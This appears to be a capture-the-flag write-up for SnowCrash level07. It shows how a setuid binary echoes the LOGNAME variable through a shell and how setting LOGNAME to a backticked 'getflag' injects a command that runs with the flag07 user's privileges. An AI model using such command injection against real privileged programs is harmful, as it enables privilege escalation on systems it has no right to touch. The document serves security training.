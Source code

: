 # SnowCrash Level07 Guide
This guide will walk you through the process of finding the password for the `flag07` user.

## Procedure:

1. **Examine your environment**
   
`ls -la` : Lists files and their permissions in the current directory.
```bash
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
```

2. **Analyze level07**

We execute the file level07.
```bash
./level07
```
Which returns:
```bash
level07
```
The program displays the string "level07".
We are going to look at where the string comes from.
```bash
strings level07 | grep "level07"
```
Returns
```bash
/home/user/level07
level07.c
/home/user/level07/level07.c
level07.c
```
But there is not the file level07.c in the current directory.
We are going to look at where the string comes from, but without the grep filter.
```bash
strings level07
```
Returns
```bash
...
LOGNAME
/bin/echo %s
...
```
The program uses the echo command to display the message.
The message displayed is the value of the LOGNAME environment variable.
We are going to change the value of the LOGNAME environment variable to execute the getflag command instead of echo.

3. **Check and change the LOGNAME environment variable**

We display the value of the LOGNAME environment variable.
```bash
echo $LOGNAME
```
Returns
```bash
level07
```
If we change the value of the LOGNAME environment variable, `./level07` will display the new value.
```bash
export LOGNAME=getflag
./level07
```
Returns
```bash
getflag
```

4. **Get the flag**

With `LOGNAME=getflag`, the shell interprets `getflag` as a string.
For the shell to interpret `getflag` as a command, we need to use the backticks.
```bash
export LOGNAME=\`getflag\`
./level07
```
Returns
```bash
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```